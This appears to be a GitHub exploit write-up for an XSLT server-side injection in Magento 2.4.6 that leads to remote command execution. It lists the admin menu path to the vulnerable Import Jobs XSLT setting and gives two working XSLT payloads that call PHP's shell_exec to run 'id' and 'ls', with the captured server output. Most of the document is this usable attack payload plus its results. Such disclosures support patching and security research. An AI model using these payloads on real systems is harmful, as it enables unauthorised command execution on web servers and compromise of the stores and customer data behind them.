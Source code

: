 # Magento-ver.-2.4.6
Magento ver. 2.4.6 - XSLT Server Side Injection
# Exploit Title: Magento ver. 2.4.6 - XSLT Server Side Injection

- **Date:** 2023-11-17
- **Exploit Author:** tmrswrr
- **Vendor Homepage:** [https://magento2demo.firebearstudio.com/](https://magento2demo.firebearstudio.com/)
- **Software Link:** [Magento 2.4.6-p3](https://github.com/magento/magento2/archive/refs/tags/2.4.6-p3.zip)
- **Version:** 2.4.6
- **Tested on:** 2.4.6

<img src="https://raw.githubusercontent.com/capture0x/Magento-ver.-2.4.6/main/magento.png" alt="Magento Image" width="700">

## POC

1. Enter with admin credentials to this URL: [https://magento2demo.firebearstudio.com/](https://magento2demo.firebearstudio.com/)
2. Click `SYSTEM > Import Jobs > Entity Type Widget > click edit`
3. Choose  Import Source is File
4. Click `XSLT Configuration` and write this payload:

   ```xml
   <?xml version="1.0" encoding="utf-8"?>
   <xsl:stylesheet version="1.0"
   xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
   xmlns:php="http://php.net/xsl">
     <xsl:template match="/">
       <xsl:value-of select="php:function('shell_exec','id')" />
     </xsl:template>
   </xsl:stylesheet>```
   
**<?xml version="1.0"?>
**uid=10095(a0563af8) gid=1050(a0563af8) groups=1050(a0563af8)

```xml
   <?xml version="1.0" encoding="utf-8"?>
   <xsl:stylesheet version="1.0"
   xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
   xmlns:php="http://php.net/xsl">
     <xsl:template match="/">
       <xsl:value-of select="php:function('shell_exec','ls')" />
     </xsl:template>
   </xsl:stylesheet>```

**<?xml version="1.0"?>
cron.php
errors
get.php
health_check.php
index.php
media
opt
robots.txt
static
static.php

